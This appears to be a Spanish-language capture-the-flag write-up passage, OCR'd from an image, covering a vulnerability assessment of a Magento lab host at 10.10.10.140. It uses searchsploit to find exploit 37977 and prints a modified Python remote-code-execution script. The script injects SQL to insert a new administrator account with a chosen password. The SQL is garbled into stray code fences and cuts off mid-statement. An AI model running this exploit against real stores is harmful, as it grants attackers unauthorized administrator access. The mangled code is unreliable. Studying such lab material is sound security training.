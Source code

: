 ## Vulnerability Assessment {-}

### Checkeando exploit para Magento {-}

```bash
searchsploit magento
```

Vemos un exploit que nos llama la atencion -> Magento eCommerce - Remote Code Execution

Nos copiamos el script en el directorio actual de trabajo y lo analyzamos

```bash
searchsploit -m 37977
mv 37977.py magento_rce.py
vi magento_rce.py
```

Modificamos el script para que funccione

```python
import requests
import base64
import sys

target = "http://10.10.10.140/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO 
```bash
 admin_user 
```
 (
```bash
 firstname 
```
, 
```bash
 lastname 
```
,
```bash
 email 
```
,
```bash
 username 
```
,
```bash
 password 
```
,
```bash
 created 
```
,
```bash
```